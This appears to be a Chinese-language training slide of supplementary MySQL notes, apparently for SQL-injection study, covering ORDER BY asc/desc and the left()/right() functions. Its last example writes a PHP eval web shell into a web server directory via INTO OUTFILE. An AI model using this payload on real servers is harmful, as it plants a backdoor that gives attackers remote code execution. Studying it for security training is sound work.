

# 补充知识_mysql知识补充
SQL 语句中, asc是指定列按升序排列，desc则是指定列按降序排列。
select * from users order by 1 desc;  使用降序进行排列
select * from users order by 1 asc;  使用升序进行排列
Right()                  select right(database(),1);
Left()                    select left(database(),1);
lines terminated by  xxx 以 xxx为结尾：
select '<?php @eval($_POST[crow]);?>' into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\crow.php' lines terminated by 0x363636;
最后写好的文件会以666结尾。（详细可参考：https://www.cnblogs.com/SZxiaochun/p/6027450.html）